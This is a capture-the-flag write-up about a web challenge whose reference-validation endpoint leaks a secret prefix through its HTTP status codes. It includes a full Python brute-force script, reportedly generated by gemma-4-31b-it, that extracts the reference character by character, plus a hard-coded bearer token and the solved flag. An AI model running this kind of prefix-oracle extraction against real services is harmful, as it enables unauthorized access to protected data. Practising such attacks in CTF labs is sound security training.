







[← US Cyber Open Season VI Writeups](/blog/us-cyber-open-season-vi-writeups)



In this challenge, the goal is to get the contents of a certain package given only its manifest id (given to us at `/scoreboard/current`). We can only get the sealed contents, though, if we have the reference through the `/api/forms/1776-b/validate-reference` endpoint even if we have the manifest id:



Once we do have the reference we can get the sealed contents through that form and then we submit them at `/scoreboard/submit` for the flag:



Even though we can’t directly access the sealed contents with just a manifest id, the `/api/forms/1776-b/validate-reference` endpoint leaks a little bit of information each time we query it with the wrong reference. If the reference starts with a certain string it returns status code 202:



We can abuse that one character at a time to leak the reference by just trying `a,b,c,` etc. until our reference starts with the right character. If we know the reference starts with ‘c’ we can try `ca, cb, cc` and so on.

I had gemma-4-31b-it implement this into a nice solve script that automatically queries the endpoint and stores the current prefix of the reference.


#### Script that gemma-4-31b-it  generated

```python
import requests
import string
import concurrent.futures
import time
from typing import Optional

# Configuration
BASE_URL = (
    "https://nwozjtsi.web.ctf.uscybergames.com"  # Update this to the actual target URL
)
USER_TOKEN = "2dce0fca4cd9dc8e964f619369290b8be757c42664db777927ae2f9f825c6f5e"  # Replace with a valid bearer token
TARGET_MANIFEST_ID = ""  # We will fetch this from /api/requisitions/current

HEADERS = {"Authorization": f"Bearer {USER_TOKEN}", "Content-Type": "application/json"}

# Characters used in UUIDs (hex + dashes)
CHARSET = string.hexdigits + "-"

def get_current_manifest():
    print("[*] Fetching current official manifest...")
    resp = requests.get(f"{BASE_URL}/api/requisitions/current", headers=HEADERS)
    if resp.status_code == 200:
        return resp.json()["manifest_id"]
    else:
        print(f"[-] Failed to fetch manifest: {resp.text}")
        return None

def check_prefix(manifest_id: str, prefix: str) -> bool:
    """
    Returns True if the response is 202 (Reference Held)
    OR 200 (Reference Cleared), meaning the prefix is correct.
    """
    params = {"manifest_id": manifest_id, "reference": prefix}
    try:
        resp = requests.get(
            f"{BASE_URL}/api/forms/1776-b/validate-reference",
            params=params,
            headers=HEADERS,
        )
        return resp.status_code in (200, 202)
    except Exception as e:
        print(f"Error checking {prefix}: {e}")
        return False

def leak_reference(manifest_id: str) -> Optional[str]:
    known_reference = ""
    print(f"[*] Starting leak for manifest {manifest_id}...")

    while True:
        found_char = None

        # Use a smaller worker pool to reduce noise and add a small delay
        with concurrent.futures.ThreadPoolExecutor(max_workers=5) as executor:
            future_to_char = {}
            for c in CHARSET:
                future = executor.submit(check_prefix, manifest_id, known_reference + c)
                future_to_char[future] = c
                time.sleep(
                    0.05
                )  # Slight delay between requests to prevent overwhelming server

            for future in concurrent.futures.as_completed(future_to_char):
                char = future_to_char[future]
                if future.result():
                    found_char = char
                    break

        if found_char:
            known_reference += found_char
            print("")
            print(f"[+] Progress: {known_reference}")

            # Check if we actually hit the full reference (200 OK)
            params = {"manifest_id": manifest_id, "reference": known_reference}
            print(params)
            resp = requests.get(
                f"{BASE_URL}/api/forms/1776-b/validate-reference",
                params=params,
                headers=HEADERS,
            )
            if resp.status_code == 200:
                print(f"[!] Full reference leaked: {known_reference}")
                return known_reference
        else:
            print("[!] Failed to find next character. Retrying...")
            continue

    return None

def submit_flag(manifest_id: str, flag_value: str):
    print(f"[*] Submitting flag to scoreboard...")
    payload = {
        "flag_id": f"continental_quartermaster:{manifest_id}",
        "flag_value": flag_value,
    }
    resp = requests.post(f"{BASE_URL}/scoreboard/submit", json=payload)
    if resp.status_code == 200:
        print(f"[***] SUCCESS! Final Flag: {resp.json().get('ctfd_flag')}")
    else:
        print(f"[-] Submission failed: {resp.text}")

def main():
    if not USER_TOKEN or USER_TOKEN == "YOUR_SESSION_TOKEN_HERE":
        print("[-] Please set your USER_TOKEN in the script.")
        return

    manifest_id = get_current_manifest()
    if not manifest_id:
        return

    # 1. Leak the reference
    reference = leak_reference(manifest_id)
    if not reference:
        print("[-] Could not leak reference.")
        return

    # 2. Get the sealed contents using the leaked reference
    params = {"manifest_id": manifest_id, "reference": reference}
    resp = requests.get(
        f"{BASE_URL}/api/forms/1776-b/validate-reference",
        params=params,
        headers=HEADERS,
    )
    if resp.status_code == 200:
        sealed_contents = resp.json().get("sealed_contents")
        print(f"[+] Sealed Contents: {sealed_contents}")

        # 3. Submit to scoreboard
        submit_flag(manifest_id, sealed_contents)
    else:
        print("[-] Failed to retrieve sealed contents even with reference.")

if __name__ == "__main__":
    main()
```


Extracting the flag character by character:



Nice! this was the final request that my script automatically sent to get the flag:



Submitting it to `/scoreboard/submit`:



Flag: `SVIUSCG{1d0371150592ecdc3d9ba3beb1fc4aed}`
